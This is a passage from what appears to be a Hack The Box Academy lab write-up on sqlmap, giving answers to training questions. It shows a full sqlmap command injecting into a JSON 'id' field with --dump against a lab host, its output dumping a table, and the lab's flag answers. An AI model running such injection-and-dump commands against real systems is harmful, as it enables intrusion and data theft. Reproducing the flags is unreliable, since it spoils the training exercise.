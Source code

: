 ```
+----+------------------------------------------+

[SNIP]
```

**Answer**

```
HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}
```

#### Question #03

**Question**

 What's the contents of table `flag4`? (Case #4)

![Firefox - Case4 JSON Value (id)](./assets/screenshots/sqlmap_essentials_firefox_case4_json_value_id.png)

```javascript
--batch --dump
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://83.136.250.20:40656/case4.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://83.136.250.20:40656/case4.php' -H 'Content-Type: application/json' -H 'Origin: http://83.136.250.20:40656' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Sec-GPC: 1' --data-raw '{"id":1*}' --batch --dump

[SNIP]

[04:50:37] [INFO] table 'testdb.users' dumped to CSV file '/home/htb-ac-1461567/.local/share/sqlmap/output/83.136.250.20/dump/testdb/users.csv'
[04:50:37] [INFO] fetching columns for table 'flag4' in database 'testdb'
[04:50:37] [INFO] fetching entries for table 'flag4' in database 'testdb'
Database: testdb
Table: flag4
[1 entry]
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{j450n_v00rh335_53nd5_6r475} |
+----+---------------------------------+
```
